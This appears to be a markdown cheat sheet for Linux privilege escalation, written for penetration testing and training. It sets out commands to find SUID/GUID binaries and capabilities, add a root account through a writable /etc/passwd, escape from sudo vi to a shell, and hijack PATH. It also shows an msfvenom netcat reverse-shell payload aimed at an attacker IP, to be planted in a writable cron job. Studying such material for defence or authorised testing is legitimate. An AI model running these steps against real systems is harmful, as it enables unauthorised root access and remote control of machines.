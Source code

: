 # [Linux] - PrivEsc

---

## Automatic enumerate

Execute **LinEnum.sh**

[Get LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

---

## SUID/GUID Files

Find SUID :

```bash
$ find / -perm -u=s -type f 2>/dev/null
```

OR

```bash
$ find / -perm /4000 -type f 2>/dev/null
```

Find GUID :

```bash
$ find / -perm -g=s -type f 2>/dev/null
```

OR

```bash
$ find / -perm /2000 -type f 2>/dev/null
```

---

## Capabilites

```bash
$ getcap -r / >/dev/null
```

---

## Exploiting a writable /etc/passwd

If /etc/passwd is writable, add an user with this follow line :

Before, we need to generated a password salty :

```bash
$ openssl passwd -1 -salt <salt> <password>
```

```bash
<user>:<salty_password>:0:0::/root:/bin/bash
```

---

## Use binary sudo (like sudo vi)

List what commands are you able to execute as a super user (example below with vi) :

```bash
$ sudo -l
[...]
(root) NOPASSWD: /usr/bin/vi
```

You can execute vi like this :

```bash
$ sudo /usr/bin/vi
```

Then, run this follow command :

```bash
!/bin/bash
```

---

## Show crontab

Execute LinEnum.sh or enumerate crontab :

```bash
$ ls -l /etc/cron*
```

If you a crontable file execute by higher user you can modify then with reverse shell payload for example :

Find a payload on GTFOBINS or you can "manually" create this :

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=<attacker_ip> lport=<listening_port> R
```

---

## PATH Variable

Overwrite the PATH variable

If we find a script run as higher privileges user but there we cant modify. You can see if this script run a "classic" command like ls.

If there is, write a new file with the name of this command :

```bash
echo "/bin/bash > /tmp/ls
```

And export the PATH variable of binaries :

```bash
export PATH=/tmp:$PATH
```

Then execute the initial script.

---

## Ressources

https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html

https://payatu.com/guide-linux-privilege-escalation
